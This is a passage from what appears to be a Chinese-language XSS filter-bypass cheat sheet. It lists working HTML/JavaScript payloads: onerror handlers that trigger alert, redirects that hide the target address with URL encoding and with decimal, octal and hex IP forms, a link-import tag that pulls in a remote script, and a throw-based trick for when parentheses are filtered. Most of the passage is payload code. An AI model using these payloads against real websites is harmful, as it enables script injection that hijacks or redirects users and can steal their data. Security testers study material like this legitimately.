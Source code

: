 ```html
<img src="x" onerror=alert(`xss`);>
```

2.使用编码绕过，具体看上面我列举的例子，我就不多赘述了



#### 过滤url地址

**使用url编码**

```html
<img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>
```

**使用IP**

1.十进制IP

```html
<img src="x" onerror=document.location=`http://2130706433/`>
```

2.八进制IP

```html
<img src="x" onerror=document.location=`http://0177.0.0.01/`>
```

3.hex

```html
<img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>
```

4.html标签中用`//`可以代替`http://`

```html
<img src="x" onerror=document.location=`//www.baidu.com`>
```

5.使用`\\`

```html
但是要注意在windows下\本身就有特殊用途，是一个path 的写法，所以\\在Windows下是file协议，在linux下才会是当前域的协议
```



解码顺序是先进行html解码，在进行javascript解码，最后再进行url解码



利用link远程包含js文件

**PS：在无CSP的情况下才可以**

```html
<link rel=import href="http://127.0.0.1/1.js">
```



当括号被过滤的时候可以使用throw来绕过

```html
<a onmouseover="javascript:window.onerror=alert;throw 1>
<img src=x onerror="javascript:window.onerror=alert;throw 1">
```
